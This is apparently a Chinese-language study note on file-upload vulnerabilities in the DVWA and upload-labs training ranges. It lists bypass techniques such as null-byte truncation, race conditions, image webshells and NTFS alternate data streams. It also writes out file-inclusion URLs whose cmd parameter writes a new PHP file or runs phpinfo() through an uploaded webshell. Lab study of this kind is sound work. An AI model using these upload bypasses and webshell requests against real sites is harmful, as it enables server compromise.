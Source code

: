 [靶场、绕过方法、原理、实战----文件上传.md](C:\Users\16159\Desktop\网安\渗透\文件上传\文件上传.md)

![img](https://oss-emcsprod-public.modb.pro/wechatSpider/modb_20210628_3d64c39c-d7de-11eb-8d0e-00163e068ecd.png)

```shell
http://dvwa/vulnerabilities/fi/?page=../../hackable/uploads/eval.php&cmd=fwrite(fopen('111.php','w'),'123456');

fopen(‘文件名’，‘权限’)

权限：w：创建文件

r：读取文件

fwrite(fopen(‘文件名’，‘权限’),’想输入的内容’)

trim:删除空格

deldot:删除文件名末端的点

strrchr：找最后字符出现的位置

strtolower:

后缀名出现::$DATA不会查询后缀名
```

如果有文件包含漏洞，直接上传图片马、二次渲染 

如果没有，就白名单，黑名单，条件竞争



白名单绕过方法：

00截断、条件竞争、

**隐藏文本：**

```shell
# 隐藏文本内容

"Z3MlVXmtnQG0xBc3t=hZ1JFZFNlW" | ac D:\26216\OneDrive\Documents\课件\渗透测试\7.文件上传\source\sample.txt:secret.txt

# 向文件的隐藏文件中写入隐藏文本

echo string > sample.txt:secret.txt

# 查看隐藏内容

notepad sample.txt:secret.txt

#用url访问
http://localhost/upload-labs-master/include.php?file=upload/sample.txt:secret.txt&cmd=phpinfo();
#注意用到文件包含  注意后面加的是&cmd=
```
